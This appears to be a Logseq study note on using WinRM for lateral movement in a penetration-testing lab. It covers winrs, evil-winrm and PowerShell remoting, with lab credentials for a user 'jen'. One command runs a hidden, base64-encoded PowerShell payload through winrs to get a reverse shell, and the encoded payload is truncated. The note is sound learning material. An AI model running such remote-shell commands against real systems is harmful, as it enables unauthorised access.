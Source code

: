 public:: true

- [WinRM](https://learn.microsoft.com/en-us/windows/win32/winrm/portal) is the Microsoft version of the [*Web Services-Management*](https://en.wikipedia.org/wiki/WS-Management) (WS-Management) open standard protocol.
- It establishes a session with a remote computer through the SOAP-based WS-Management protocol rather than a connection through DCOM, as [[WMI]] does. Data returned using the WS-Management protocol is formatted in XML instead of as objects.
- #+BEGIN_IMPORTANT
  It exchanges XML messages over HTTP and HTTPS. For that it uses **TCP port 5986 for encrypted HTTPS traffic** and **port 5985 for plain HTTP**.
  #+END_IMPORTANT
- You can use WinRM in different flavors: Powershell, [`winrs`](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/winrs) or [`evil-winrm`](https://github.com/Hackplayers/evil-winrm) in linux
- #+BEGIN_IMPORTANT
  For WinRS to work, the domain user needs to be part of the **Administrators** or **Remote Management Users** group on the target host.
  #+END_IMPORTANT
- Let's see how to use `winrs` to run the `whoami` command on a remote target logging as user *jen*.
	- ```cmd
	  winrs -r:files04 -u:jen -p:Nexus123!  "cmd /c whoami"
	  ```
	- As [already shown](((65a01d55-0fd2-4bbd-9251-edd80b50bbb9))) in [[WMI]], we can instead use it to get a reverse shell.
	  ```cmd
	  winrs -r:files04 -u:jen -p:Nexus123!  "powershell -nop -w hidden -e JABjAG...G4AdAAuAEMAbABvAH"
	  ```
- PowerShell also has WinRM built-in capabilities called [*PowerShell remoting*](https://learn.microsoft.com/en-us/powershell/scripting/learn/ps101/08-powershell-remoting?view=powershell-7.4). Let's see how to use it to access a remote shell.
	- First, we need to create a [PSCredential](https://learn.microsoft.com/en-us/powershell/scripting/learn/deep-dives/add-credentials-to-powershell-functions?view=powershell-7.2) object to store the domain user credentials that we use to access the remote target.
	  logseq.order-list-type:: number
		- ```powershell
		  $username = 'jen';
		  $password = 'Nexus123!';
		  $secureString = ConvertTo-SecureString $password -AsPlaintext -Force;
		  $credential = New-Object System.Management.Automation.PSCredential $username, $secureString;
		  ```
	- Next, we can point the [*New-PSSession*](https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.core/new-pssession?view=powershell-7.4) cmdlet to the target machine and pass the PSCredential object.
	  logseq.order-list-type:: number
		- ```powershell
		  New-PSSession -ComputerName 192.168.50.73 -Credential $credential
		  ```
	- At this point a new *PSSession* would be available and we can enter it to interact with the remote shell.
	  logseq.order-list-type:: number
		- ```powershell
		  Enter-PSSession 1
		  ```